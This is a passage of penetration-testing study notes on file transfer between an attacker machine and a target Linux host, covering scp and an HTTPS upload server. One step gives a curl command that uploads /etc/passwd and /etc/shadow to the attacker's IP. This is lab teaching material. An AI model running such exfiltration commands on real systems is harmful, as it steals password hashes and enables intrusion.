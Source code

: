 3) And finally we print the response
```shell-session
cat <&3
```

## <mark class="hltr-cyan">SSH Downloads (scp)</mark>

(attacker -> target)

Before we begin downloading files from our target Linux machine to our Pwnbox, let's set up an SSH server in our Pwnbox.

```
sudo systemctl start ssh
```

```shell-session
scp test.txt userbravo@destination:/location2
```

## <mark class="hltr-cyan">Upload Operations</mark>

(target -> attacker)
### <mark class="hltr-orange">Web Upload</mark>

Step 1: Create a new directoy
```
mkdir https && cd $_
```

Step 2: Create a self signed certificate
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

Step 3: Start the web server

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

Step 4: Finally we upload the files to the attacker machine
```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### <mark class="hltr-orange">Alternative Web File Transfer Method</mark>

We have to start an http server on the target machine

- python3
```
python3 -m http.server
```
